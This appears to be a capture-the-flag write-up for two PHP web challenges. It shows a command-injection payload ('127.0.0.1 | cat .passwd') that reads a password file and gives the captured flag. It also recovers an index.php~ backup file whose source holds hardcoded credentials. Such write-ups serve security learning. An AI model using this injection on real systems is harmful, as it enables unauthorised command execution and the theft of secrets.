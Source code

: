 # PHP - Command injection

Simple command injection, even no characters escape
```shell
127.0.0.1 | cat .passwd
```

and we get flag `S3rv1ceP1n9Sup3rS3cure`

# Backup file

This challenge is solved by looking into index.php backup file. \
i had a problem with finding it, i tried index.php.bak, index.php.backup, looked for robots.txt and so on, and wasn't able to find it. \
Finally i got a direction from [OWASP Testing guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/04-Review_Old_Backup_and_Unreferenced_Files_for_Sensitive_Information) about index.php~ and the challenge was done

```shell
cat index.php\~
```

```php
<?php

$username="ch11";
$password="OCCY9AcNm1tj";


echo '
      <html>
      <body>
        <h1>Authentication v 0.00</h1>
';

if ($_POST["username"]!="" && $_POST["password"]!=""){
    if ($_POST["username"]==$user && $_POST["password"]==$password)
    {
      print("<h2>Welcome back {$row['username']} !</h2>");
      print("<h3>Your informations :</h3><p>- username : $row[username]</p><br />");
      print("To validate the challenge use this password</b>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");

    }
}

echo '
        <form action="" method="post">
          Login&nbsp;<br/>
          <input type="text" name="username" /><br/><br/>
          Password&nbsp;<br/>
          <input type="password" name="password" /><br/><br/>
          <br/><br/>
          <input type="submit" value="connect" /><br/><br/>
        </form>
      </body>
      </html>
';

?> 
```
